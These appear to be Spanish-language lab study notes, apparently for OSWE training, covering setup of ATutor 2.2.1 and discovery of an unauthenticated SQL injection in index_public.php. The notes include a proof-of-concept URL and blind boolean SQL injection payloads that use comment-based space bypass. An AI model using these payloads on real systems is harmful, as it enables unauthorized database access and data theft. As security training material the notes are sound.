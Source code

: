 ### Configuracion Atutor 2.2.1
- Descarga [https://sourceforge.net/projects/atutor/files/atutor_2_2_1/](https://sourceforge.net/projects/atutor/files/atutor_2_2_1/)

- POC: http://192.168.100.28/atutor/mods/_standard/social/index_public.php?q='

- Instalación

```
OS:  Ubuntu 14.04.6 LTS
mysql  atutor:atutor 5.6.16-1~exp1-log
PHP 5.5.9-1ubuntu4

[X] mysql
add (php.ini)
extensión=mysqli
extensión=pdo_mysql
restart apache2

[WARNING]
sudo apt-get install php5-gd
sudo apt-get install php5-curl
restart apache2

CONFIGURACION (FILE UPLOAD)
/var/www/html/atutor/include/classes/pclzip.lib.php
REEMPLAZAR
[gzopen]  -> [gzopen64]
[@gzopen] -> [@gzopen64]
CONF RCE OSWE
sudo chmod 757 ./atutor/mods/
```


----

#### MYSQL LOG
```bash
student@atutor:~$ sudo nano /etc/mysql/my.cnf <> /etc/mysql/mariadb.conf.d/50-server.cnf
[...]
[mysqld]
general_log_file = /var/log/mysql/mysql.log 
general_log = 1
[...]
[REINICIAR MYSQL]
sudo tail –f /var/log/mysql/mysql.log
```

#### PHP LOG
Editar `/etc/php5/apache2/php.ini`
```bash
[...]
display_errors = On 
[...]
[REINICIAR APACHE]
```

----

Todas las páginas que no requieren autenticación contienen la siguiente línea en su código fuente  
```
$_user_location = 'public'; 
```

Enumerar todas las páginas a las que podíamos acceder sin autenticación  
```
grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" -color
```

Después de pasar un tiempo haciéndolo, descubrimos un hallazgo potencialmente interesante. Miremos el código encontrado en ```/var/www/html/ATutor/mods/_standard/social/index_public.php``` 
```
14: $_user_location = 'public'; 15: 
16: define('AT_INCLUDE_PATH', '../../../include/'); 
17: require(AT_INCLUDE_PATH.'vitals.inc.php'); 
18: require_once(AT_SOCIAL_INCLUDE.'constants.inc.php'); 
19: require(AT_SOCIAL_INCLUDE.'friends.inc.php'); 
20: require(AT_SOCIAL_INCLUDE.'classes/PrivacyControl/PrivacyObject.class.php'); 
21: require(AT_SOCIAL_INCLUDE.'classes/PrivacyControl/PrivacyController.class.php'); 
```

 ```
 grep -rnw /var/www/html/ATutor -e "function searchFriends" --color
 ```

## PHP
- `isset`: Si tiene valor devuelve un **true**  
- `intval`: Obtiene el valor entero de una variable  
- `àddslashes`: Devuelve una cadena con barras invertidas añadidas antes de los caracteres que deben escaparse (',",\,NUL)  
- `continue`:se utiliza dentro de las estructuras iterativas para saltar el resto de la iteración actual del bucle y continuar la ejecución en la evaluación de la condición, para luego comenzar la siguiente iteración.

-----
## Exfiltracion de datos
```
> select/**/1;
> AAAA')/**/or/**/(select/**/1)=1%23 
> AAAA')/**/or/**/(select/**/1)=0%23
>  SELECT count(*) FROM AT_members M WHERE (first_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR second_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR last_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR login LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%');\n;
>  SELECT count(*) FROM AT_members M WHERE (first_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR second_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR last_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR login LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%');\n;
```


